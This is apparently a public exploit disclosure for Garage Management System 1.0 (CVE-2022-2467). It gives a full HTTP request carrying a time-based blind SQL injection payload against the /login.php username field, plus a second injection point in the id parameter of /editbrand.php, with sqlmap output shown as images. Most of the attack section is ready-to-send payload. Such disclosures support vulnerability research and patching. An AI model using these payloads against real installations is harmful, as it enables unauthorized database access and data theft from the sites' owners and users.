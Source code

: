 ### Exploit Title: Garage Management System - Multiple SQL injections
### Date: 2022-07/19
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.htm
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1.CVE-2022-2467
/login.php SQL injection exists at the login port

### Sample request POC #1

```
POST /login.php HTTP/1.1
Host: [TARGET URL/IP]
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://shen-ji.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://shen-ji.com/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=coj91b4jkkol1s8oalg3r7in12
Connection: close

username=1@a.com' AND (SELECT 6427 FROM (SELECT(SLEEP(5)))LwLu) AND 'hsvT'='hsvT&password=412312&login=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20220719153600.png "Garage Management System")


# 2./editbrand.php
/editbrand.php SQL injection exists for parameter ID

### Sample request POC #2

```
http://[ip:port]/editbrand.php?id=1
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20220719154113.png "Garage Management System")


